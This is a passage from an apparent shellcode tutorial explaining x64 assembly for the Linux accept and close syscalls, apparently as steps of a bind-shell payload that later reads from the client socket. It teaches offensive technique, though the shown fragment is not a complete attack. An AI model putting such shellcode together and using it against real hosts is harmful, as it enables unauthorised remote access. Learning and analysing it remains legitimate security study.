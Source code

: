 1. `sockfd` - a socket that was created with 'socket' syscall, bound to a local address and is listening for a connection.
2. `addr` - a pointer to sockaddr sructure (in our case it is rsi).
3. `addrlen` - value-result argument that contains the size of the struct pointed to by `addr` (in bytes).

```Assembly x64
	; Accept syscall
	
		push 43
		pop rax ; 43 is a decimal for 'accept' syscall
	
		cdq ; zeroing rdx -- converting to a quadword
		push rdx
		push rdx ; the same stack logic as in 'bind' syscall
	
		mov rsi, rsp ; client will be stored in rsi 
		push 16 ; size of 'addr'
		lea rdx, [rsp]
		syscall
	
		; store a client socket descriptor in r9 for later use
		xchg r9, rax
```

### Close a file descriptor

`close` syscall closes a fd, so it does not refer to any file, but may be used again.

```PoC
int close(int fd);
```

```Assembly x64
	closefd_syscall:
		
		push 3
		pop rax
		
		; it takes fd as an rdi argument
		; here fd is already in rdi
		
		syscall
	
	; restoring client socket descriptor to rdi
	
		mov rdi, r9
	
	; jumping to a read_syscall on success
	; this will be another point of return
	
		jz read_syscall
		
	; or exit on error
		push 60
		pop rax
		syscall
```
